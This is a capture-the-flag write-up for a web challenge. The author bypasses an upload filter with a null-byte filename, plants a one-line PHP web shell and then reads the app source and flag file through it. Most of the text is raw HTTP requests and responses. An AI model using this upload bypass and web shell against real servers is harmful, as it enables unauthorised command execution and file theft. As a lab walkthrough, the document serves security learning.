

# Intro


# Information gathering
Entering the site the user is presented with a form to upload a file, a form to translate hieroglyphs and "boxes" that probably is some hieroglyphs. Entering these "boxes" into the translator presenting a hint.  



The hint: The sacred inscriptions are safeguarded by deception, but an addition might deceive the temple's guardians.

From this hint, magic or null bytes is probably the way. And previous CTF used magic bytes so let's start with null bytes. So adding ```%00.jpg``` to the file name.  
Request
```http
POST / HTTP/1.1
Host: 167.172.174.178:5000
Content-Length: 236
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://167.172.174.178:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygyGljJRYdT8AqdXS
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://167.172.174.178:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarygyGljJRYdT8AqdXS
Content-Disposition: form-data; name="file"; filename="test.php%00.jpg"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

------WebKitFormBoundarygyGljJRYdT8AqdXS--
```

Response:
```html
```html
<p><strong>Offering received: 200_test.php. Available at: <a href='http://167.172.174.178:8000/200_test.php' target='_blank'>http://167.172.174.178:8000/200_test.php</a></strong></p>
```

Null bytes were successful. And now the script is accessible and now an attacker could inject commands.  
```http
GET /200_test.php?command=id HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:33:54 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
```

# Attack
Navigating the folders with ```ls ..```, the same folder 
```http
GET /200_test.php?command=ls HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:34:23 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

200_test.php
200_test.php
```

```http
GET /200_test.php?command=ls+../ HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:34:37 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

__pycache__
app.py
requirements.txt
static
templates
translator.py
uploads
uploads
```

```http
GET /200_test.php?command=cat+../app.py HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```


The path to the flag file is found here:  
```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:35:04 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

from flask import Flask, request, render_template, send_from_directory, jsonify
import os
import urllib.parse
import re
import subprocess
from translator import text_to_hieroglyphs, hieroglyphs_to_text  # Import translation functions

app = Flask(__name__)
UPLOAD_FOLDER = "/app/uploads/"
FLAG_FILE = "/home/ctfuser/flag.txt"
PHP_EXECUTABLE = "/usr/local/bin/php"

ALLOWED_EXTENSIONS = {"png", "jpg", "jpeg"}
[...]
```

```http
GET /200_test.php?command=cat+/home/ctfuser/flag.txt HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:36:39 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

O24{54cr3d_up104d_3xp10i7}
O24{54cr3d_up104d_3xp10i7}
```

```Flag: O24{54cr3d_up104d_3xp10i7}```